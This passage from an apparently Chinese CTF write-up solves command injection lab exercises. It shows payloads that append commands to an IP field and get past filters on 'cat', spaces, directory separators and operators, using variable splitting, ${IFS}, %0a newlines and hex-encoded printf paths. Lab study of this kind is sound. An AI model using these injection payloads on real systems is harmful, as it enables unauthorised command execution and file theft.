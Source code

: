 `127.0.0.1 ; ls`先查看文件，发现了flag_169413020618490.php
![](https://img-blog.csdnimg.cn/20200313122653600.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
发现cat被过滤了，那么我们就要构造cat，在linux下可尝试构造
![](https://img-blog.csdnimg.cn/20200313123319767.png)
`127.0.0.1 ; a=ca;b=t;$a$b flag_169413020618490.php`，在源码得到flag
![](https://img-blog.csdnimg.cn/20200313123452359.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
### 过滤空格
先进行过滤空格总结，在linux环境下进行试验
`1:<>`  `2:<` `3:${IFS}` 
![](https://img-blog.csdnimg.cn/20200313124141804.png)
由于${IFS}没有什么问题，用它来解题，同理先查看文件 `127.0.0.1;ls`
 ![](https://img-blog.csdnimg.cn/20200313124419642.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
 
然后读取flag `127.0.0.1;cat${IFS}flag_23126758913777.php`,源码得到flag
![](https://img-blog.csdnimg.cn/20200313124819291.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
### 过滤目录分隔符
首先查看文件`127.0.0.1 ; ls`
![](https://img-blog.csdnimg.cn/20200313125004512.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
发现有flag_is_here，我们要进入目录下拿flag，`127.0.0.1 ; cd flag_is_here ; ls`
![](https://img-blog.csdnimg.cn/20200313125416531.png)
然后将ls改为cat flag即可`127.0.0.1 ; cd flag_is_here ; cat flag_1918363312881.php`，源码得到flag
![](https://img-blog.csdnimg.cn/20200313125611165.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
### 过滤运算符
和前面的题一样，思路一模一样。。。。这里没有过滤 ；差评。`127.0.0.1 ; ls`
![](https://img-blog.csdnimg.cn/20200313131541875.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
`127.0.0.1 ; cat flag_225062507519043.php`
![](https://img-blog.csdnimg.cn/2020031313174768.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
### 综合过滤练习
![](https://img-blog.csdnimg.cn/20200313132006894.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
这就真的全过滤了，这里就要用到另外两种命令分隔符了`%0a(换行符) 、%0d(回车符) `，并且在url下写入:
`?ip=127.0.0.1%0als#`
![](https://img-blog.csdnimg.cn/20200313140136434.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
接下来查看flag_is_here文件夹，我这里使用Hex编码查看，
`?ip=127.0.0.1%0als${IFS}$(printf${IFS}"\x66\x6c\x61\x67\x5f\x69\x73\x5f\x68\x65\x72\x65")#`
![](https://img-blog.csdnimg.cn/2020031315024671.png)
![](https://img-blog.csdnimg.cn/20200313143111408.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
得到了flag的文件名，接下来就是读取了，由于过滤了cat，可以用`ca''t`或`ca""t`来绕过，并且对下面进行16进制编码
`ip=127.0.0.1%0aca''t${IFS}$(printf${IFS}"\x66\x6c\x61\x67\x5f\x69\x73\x5f\x68\x65\x72\x65\x2f\x66\x6c\x61\x67\x5f\x36\x33\x31\x38\x31\x35\x30\x35\x33\x33\x34\x2e\x70\x68\x70")#`
![](https://img-blog.csdnimg.cn/20200313150351518.png)
![](https://img-blog.csdnimg.cn/20200313145058710.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
